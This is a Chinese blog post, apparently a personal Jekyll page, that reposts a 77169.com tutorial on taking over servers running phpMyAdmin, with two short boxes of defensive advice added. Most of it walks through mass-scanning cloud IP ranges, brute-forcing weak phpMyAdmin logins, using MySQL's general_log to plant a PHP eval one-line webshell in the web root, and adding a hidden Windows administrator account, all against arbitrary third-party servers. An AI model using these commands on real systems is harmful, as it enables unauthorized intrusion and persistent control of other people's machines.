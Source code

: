 ```yaml
---
layout: default
title: phpmyadmin安全预防
category: [Technology, Safe]
comments: true
---
```


## 头疼的安全
之前服务器总是本人黑,千疮百孔,只能一步步的去做一些安全防范,如何防范自然先从如何渗透开始.




## 文章及建议

前段时间看到了个phpmyadmin提权的教程,很多人都说现在那里还有root帐号root密码这种弱口令，今天给大家来一套完整的教学。

首先百度XX云X地区的IP段（你要是连几个国内云服务运营商的名字都不知道，那我就真的没办法了）。

![phpmyadmin从找目标到拿下服务器](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin5-1532049122.jpg)

找到以后百度随便找个工具扫描IP段，大的运营商一般直接后两个大段都是他的

然后找到IP段以后直接找一个80端口批量扫描的工具扫80端口，直接扫两个大段

我用的这个叫S-Xing，百度来的，不知道有没有后门，所以就不提供了

![phpmyadmin从找目标到拿下服务器](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin8-1532049123.png)

![phpmyadmin从找目标到拿下服务器](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin9-1532049123.jpg)

扫描好以后导入刚才扫描好的IP

![phpmyadmin从找目标到拿下服务器](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin10-1532049123.png) 

然后选择自动后缀

![phpmyadmin从找目标到拿下服务器](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin6-1532049123.jpg)

线程根据自己配置来配置，我直接选择最高500，然后开始爆破

![phpmyadmin从找目标到拿下服务器](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin5-1532049123.png)

爆破结果

![phpmyadmin从找目标到拿下服务器](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin10-1532049123.jpg)

```
防范建议
这里的话,想要防范这一步,可以采取的方法有关闭phpMyAdmin,这个最直接了.
如果不关闭的话,建议更改访问的端口号.
然后默认密码必须修改,不可以使用简单密码.
目录的权限也最好下降到最低.
```
					
随便选择一个开搞

先看一下服务器信息xx.xx.xx.xx/l.php

![phpmyadmin从找目标到拿下服务器](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin6-1532049124.jpg)

网站路径什么的都爆出来了，登录后台

![phpmyadmin从找目标到拿下服务器](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin5-1532049124.png)

老规矩，查下mysql日志文件路径

![phpmyadmin从找目标到拿下服务器 ](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin7-1532049124.png)


先修改日志路径到当前网站路径，在开启日志，并插入一句话木马，然后关闭日志

SET global general_log_file='C:/phpStudy/PHPTutorial/WWW/sean.php'; 

修改当前日志文件到网站目录下

set global general_log = "ON";                开启mysql记录日志

select '<?php eval($_POST[sean]);?>';   插入PHP        一句话木马

set global general_log = "OFF";              关闭mysql记录日志

![phpmyadmin从找目标到拿下服务器 ](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin4-1532049124.png)

执行成功

![phpmyadmin从找目标到拿下服务器 ](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin3-1532049124.png)

接下来上菜刀连接上传好的一句话木马

![phpmyadmin从找目标到拿下服务器](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin3-1532049124-1.png)

![phpmyadmin从找目标到拿下服务器 ](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin8-1532049124.png)

用`net user admin$ sean2018.. /add & net localgroup administrators admin$ /add`创建一个管理员账号

![phpmyadmin从找目标到拿下服务器 ](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin7-1532049124.jpg)

账号已存在，那就直接修改密码了，带$符号的都是被影藏账号，估计被日了多少次了吧

![phpmyadmin从找目标到拿下服务器 ](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin0-1532049124.jpg)

接下来连接试试

![phpmyadmin从找目标到拿下服务器 ](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin0-1532049124-1.jpg)

![phpmyadmin从找目标到拿下服务器](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin2-1532049124.png)

```
防范建议
在这一步的话,防范的方法也有一些,比方说加一个安全狗软件,算是不错的了.
至于写文件的这个权限,刚刚如果降低了,应该问题不大,不过也有可以提升权限的一些工具,因此需要及时更新数据库和系统的bug.
至于执行命令创建用户的权限,只能简单做好预防和定期查看了,基本上到了上一步,所有的权限和账户已经有了.到了这里目前只有重装系统,才能干掉这个入侵者的份了.
当然,如果把所有的漏洞堵上,也可以不重装.但是后门太多,非专业人员,处理不会怎么全面.
```
玩完，收工，文章内所有的工具，百度一搜索一大把，我也是百度来的，不知道有没有后门所以就不提供下载了，怕中毒找个虚拟机搞，自己折腾吧。

华盟网原创，随便转载但请注明来自77169.COM，感谢支持！

本文章只做教学思路，请勿用于非法用途



## 说明

[欢迎评论，欢迎指正,转载也请注明出处.](https://wangkun19930608.github.io/technology/safe/2018/08/06/safe-db/)

### 参考文章

[phpmyadmin从找目标到拿下服务器](https://www.77169.com/html/215589.html)


### 版本说明

20180806 开始着手文章

20180807 文章完成时间






